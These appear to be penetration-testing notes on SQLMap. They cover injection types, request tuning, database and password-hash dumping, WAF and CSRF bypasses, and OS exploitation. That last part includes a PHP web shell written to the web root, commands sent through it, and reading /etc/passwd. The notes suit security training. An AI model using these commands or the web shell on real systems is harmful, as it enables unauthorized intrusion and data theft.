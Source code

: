 # SQLMap 
Penetration testing tool to detect and exploit SQL injection vulnerabilities

---

## Types of Injection Vulnerabilities 
The default SQL injection techniques used are described by the acronym BEUSTQ
- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

---
## Basic Usage
```shell
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

Use the `copy as cURL` right click option from the networking tab in inspector and replace with sqlmap
```shell
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

POST data can be added with the `--data` flag and `--method POST`

Alternatively, you can capture a request using [[BurpSuite]] and copy into a file which can be read with the `-r` flag

Use the `--cookie` flag to set the session cookie 
```shell
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
Or with a `-h` header option
```shell
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

`--mobile` and `--random-agent` can be used to change the agent header

Specify the injection mark with a `*` Ex: 
>--cookie="id=1*"

SQLMap also supports JSON formatted (e.g. `{"id":1}`) and XML formatted (e.g. `<element><id>1</id></element>`) HTTP requests.

`-t` flag will dump all the traffic data from the request and response to designated file

`--proxy` can be used to analyze traffic with [[BurpSuite]]

---
## Attack Tuning
Every payload sent to the target consists of:

-   vector (e.g., `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.

-   boundaries (e.g. `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.

### Prefix/Suffix
Some special prefix and suffix values may be required in rare cases 
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

### Level/Risk
When bigger sets of boundaries and vectors are required:

-   The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).

-   The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

### Additional Fine Tuning
`--code=200` will filter all 200 status codes returned by SQLi
`--titles` will detect a title changes in the `<title>` html tag
`--string=success` can be used to detect if a string is present in response
`--text-only` limits detection to only visible HTML content
`--technique=BEU` will limit SQLi payloads to these techniques
`--union-cols=17` or `--union-char='a'` can be used to specify vulnerable columns
`--union-from=users` can be used to specify appendix at the end of a UNION query
`-T tablename` can be used to specify which table data to dump

## DB Enumeration
`--banner` will use the VERSION() query
`--current-user` will use the CURRENT_USER() query
`--hostname` will diplay the hostname of the vulnerable target
`--current-db` will display the current database name
`--is-dba` will show if current user is a database admin
`--password-hashes` will dump only password hashes found in db

```shell
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

`--tables` will enumerate tables specified with `-D dbname`
`--dump` will display table data specified by `-T tablename` and columns by `-C a,b` 
and rows by `--start=2 --stop=3` and further specified by `--where="name LIKE 'f%'"`

`--dump-all` will dump all the content from all the databases
`--exclude-sysdbs` will exclude content from system databases

`--schema` will retrieve the structure of all the tables
`--search -T user` will try to find tables containing the string 'user' 
`--search -C pass` will try to find columns containing the string 'pass'
`--passwords` self explanatory

**`--all --batch` will do a complete enumeration**

## Bypassing Web Application Protections
### Anti-CSRF Token Bypass
```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

### Unique Value Bypass
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp
```

### Calculated Parameter Bypass
```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch
```

### Proxies
`--proxy="socks4://177.39.187.70:33283"`
`--proxy-file`
By using switch `--tor`, there should be a `SOCKS4` proxy in port 9050 or 9150
Use `--check-tor` to test

User agent bypass `--random-agent`

### WAF/IPS Bypass
Tamper scripts are python scripts writeen for modifying reauests before being sent
They can be chained this way `--tamper=between,randomcase`
To get a whole list of tamper scripts run `--list-tampers`
`--chunked` can be used when SQL keywords are blacklisted

## OS Exploitation
SQLMap has the ability to read/write files on the target machine and allow for RCE

### File Read/Write
In MySql, to read local files, the DB user must have the privilege to `LOAD DATA` and `INSERT`, to be able to load the content of a file to a table and then reading that table.
-   `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

`--is-dba` can be used to figure out if we have read/write privileges

To read files:
```shell
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

To write files:
```shell
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

The PHP shell file: 
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Sending commands to the cmd shell:
```shell
curl http://www.example.com/shell.php?cmd=ls+-la
```

## RCE
SQLMap can directly create an SQL shell using xp_cmdshell
```shell
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

If this returns NO OUTPUT, sometimes switching injection techniques may be required with `--technique=E`

